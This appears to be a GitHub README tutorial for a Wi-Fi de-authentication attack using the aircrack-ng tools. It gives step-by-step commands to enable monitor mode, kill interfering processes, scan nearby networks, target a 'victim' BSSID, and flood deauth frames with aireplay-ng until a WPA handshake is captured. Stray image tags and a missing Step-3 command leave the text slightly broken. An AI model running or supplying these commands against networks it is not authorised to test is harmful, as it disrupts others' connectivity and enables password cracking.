





# Wireless Penetration Testing via De-authentication Frames

## Pre-requisites
Enable **monitor mode** for your network adapter. You can use the following commands to enable monitor mode - 
```
sudo ifconfig <wireless-connection-name> down
sudo iwconfig <wireless-connection-name> mode monitor
sudo ifconfig <wireless-connection-name> up
```
</img>

# Steps to perform de-authentication attack

## Step-1: Check Interfering Process 
`airmon-ng` can be used to check the process currently running that **can interfere and prevent us** from performing our wireless penetration attack.<br>
Command used to check the interfering process is -<br>
```
sudo airmon-ng start <wireless-connection-name>
```
</img>

## Step-2: Kill Interfering Process 
`airmon-ng` again can be used to kill the interfering processes discovered in step-1.<br>
Command used to kill the interfering process is -<br>
```
sudo airmon-ng check kill <wireless-connection-name>
```
</img>

## Step-3: Re-enable Monitor Mode 
After killing interfering processes, your network card would enter managed mode again. Use the [following] commands to enable monitor mode again

## Step-4: Monitor Wireless Connections Surrounding You
Using `airodump-ng`, you can **monitor the list of wi-fi networks** around you.<br>
Command used to monitor the list of wi-fi networks is -<br>
```
sudo airodump-ng <wireless-connection-name>
```
</img>

## Step-5: Monitor Devices Connected to Selected MAC Address
Using `airodump-ng`, you can also  **monitor the list MAC addresses that are connected to a particular wifi network**.<br>
Command used to monitor the MAC address is -<br>
```
sudo airodump-ng -c <channel-number> --bssid <MAC-address-of-victim-machine> -w <file-name> <wireless-connection-name>
```
</img>

## Step-6: Start Sending De-authentication Frames
In this step, using `aireplay-ng` you can **start sending de-auth frames** to victim's machine until 4-way handshake is captured.<br>
Command used to **send de-auth frames** is -<br>
```
aireplay-ng -0 0 -a <MAC-address-of-victim-machine> <wireless-connection-name>
```
</img>
